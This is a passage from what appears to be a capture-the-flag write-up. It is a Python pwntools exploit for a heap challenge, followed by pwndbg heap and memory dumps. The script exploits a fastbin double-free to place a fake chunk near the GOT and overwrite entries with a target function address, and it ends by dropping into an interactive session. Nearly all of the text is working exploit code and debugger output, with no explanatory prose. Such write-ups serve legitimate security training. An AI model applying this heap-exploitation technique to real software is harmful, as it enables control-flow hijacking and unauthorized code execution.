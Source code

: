 ```python  
	r.recvuntil(":")  
	r.sendline(color)  
  
def removeFlower(idx):  
	r.recvuntil("Your choice : ")  
	r.sendline("3")  
	r.recvuntil(":")  
	r.sendline(str(idx))  
  
raiseFlower(0x50, "aaa", "blue")  
raiseFlower(0x50, "bbb", "red")  
  
removeFlower(0)  
removeFlower(1)  
removeFlower(0)  
  
fakechunk = 0x601ffa  
raiseFlower(0x50, p64(fakechunk), "red")  
raiseFlower(0x50, "aaa", "blue")  
raiseFlower(0x50, "bbb", "blue")  
magic = 0x400c7b  
payload = 'a'*6 + p64(0) + p64(magic) + p64(magic)  
raiseFlower(0x50, payload, "xxx")  
r.interactive()  
```  
  
```shell  
pwndbg> heapinfo  
(0x20)     fastbin[0]: 0x0  
(0x30)     fastbin[1]: 0x0  
(0x40)     fastbin[2]: 0x0  
(0x50)     fastbin[3]: 0x0  
(0x60)     fastbin[4]: 0x9e40d0 --> 0x9e4040 --> 0x601ffa (size error (0x168000000000060)) --> 0xf1000007f8c1ec3 (invaild memory)  
(0x70)     fastbin[5]: 0x0  
(0x80)     fastbin[6]: 0x0  
(0x90)     fastbin[7]: 0x0  
(0xa0)     fastbin[8]: 0x0  
(0xb0)     fastbin[9]: 0x0  
                  top: 0x9e4160 (size : 0x1fea0)  
       last_remainder: 0x0 (size : 0x0)  
            unsortbin: 0x  
  
pwndbg> x/30gx 0x601ff8  
0x601ff8:       0x0000000000000000      0x0000000000601e28  
0x602008:       0x00007f8c1ec30168      0x00007f8c1ea20f10  
0x602018:       0x00007f8c1e6c3540      0x00007f8c1e6ae6a0  
0x602028:       0x00000000004007b6      0x00007f8c1e694810  
0x602038:       0x00007f8c1e7b1a30      0x00007f8c1e70b280  
0x602048:       0x00007f8c1e7369a0      0x00007f8c1e736310  
0x602058:       0x00007f8c1e65f750      0x00007f8c1e6743d0  
0x602068:       0x00007f8c1e6c3180      0x00007f8c1e6aee80  
0x602078:       0x00007f8c1e7360f0      0x00007f8c1e675e90  
0x602088:       0x00007f8c1e6aa4e0      0x0000000000400886  
0x602098:       0x0000000000000000      0x0000000000000000  
0x6020a8:       0x0000000000000000      0x0000000000000000  
0x6020b8:       0x0000000000000000      0x00007f8c1ea04620  
0x6020c8 <completed>:   0x0000000300000000      0x0000000000000000  
0x6020d8:       0x0000000000000000      0x00000000009e3010  
  
pwndbg> x/30gx 0x601ffa  
0x601ffa:       0x1e28000000000000      0x0168000000000060  
0x60200a:       0x0f1000007f8c1ec3      0x354000007f8c1ea2  
0x60201a:       0xe6a000007f8c1e6c      0x07b600007f8c1e6a  
```